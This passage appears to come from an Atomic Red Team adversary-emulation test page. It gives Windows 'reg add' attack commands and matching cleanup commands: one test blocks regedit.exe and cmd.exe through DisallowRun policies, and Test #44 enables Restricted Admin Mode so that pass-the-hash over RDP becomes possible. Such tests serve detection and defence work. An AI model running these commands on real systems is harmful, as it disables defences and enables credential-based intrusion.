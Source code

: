 #### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v DisallowRun /t REG_DWORD /d 1 /f
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun /f /t REG_SZ /v art1 /d "regedit.exe"
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun /f /t REG_SZ /v art2 /d "cmd.exe"
```

#### Cleanup Commands:
```cmd
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v DisallowRun /f >nul 2>&1
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun /v art1 /f >nul 2>&1
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\DisallowRun /v art2 /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #44 - Enabling Restricted Admin Mode via Command_Prompt
Enabling Restricted Admin Mode via Command_Prompt,enables an attacker to perform a pass-the-hash attack using RDP.

See [Passing the Hash with Remote Desktop](https://www.kali.org/blog/passing-hash-remote-desktop/)

**Supported Platforms:** Windows


**auto_generated_guid:** fe7974e5-5813-477b-a7bd-311d4f535e83






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "hklm\system\currentcontrolset\control\lsa" /f /v DisableRestrictedAdmin /t REG_DWORD /d 0
```

#### Cleanup Commands:
```cmd
reg delete "hklm\system\currentcontrolset\control\lsa" /f /v DisableRestrictedAdmin >nul 2>&1
```
